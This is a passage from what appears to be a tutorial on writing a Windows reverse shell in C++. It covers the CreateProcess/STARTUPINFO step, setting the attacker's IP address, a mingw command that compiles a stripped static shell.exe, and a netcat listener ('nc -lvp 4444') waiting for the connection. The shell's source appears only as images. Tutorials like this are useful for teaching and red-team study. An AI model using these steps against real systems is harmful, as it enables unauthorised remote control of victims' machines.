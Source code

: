 because then the `CreateProcess` function takes a pointer to a `STARTUPINFO` structure as one of its parameters.
![createprocess](/assets/images/5/2021-09-15_12-40.png){:class="img-responsive"}

Let's go to update attacker's IP address:   
![attacker's IP](/assets/images/5/2021-09-15_12-42.png){:class="img-responsive"}

and compile our shell:   
```bash
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```
![compile simple shell](/assets/images/5/2021-09-15_12-46.png){:class="img-responsive"}

Let's go to check!    
Prepare listener with netcat:
```bash
nc -lvp 4444
```
![netcat listener](/assets/images/5/2021-09-15_12-49.png){:class="img-responsive"}
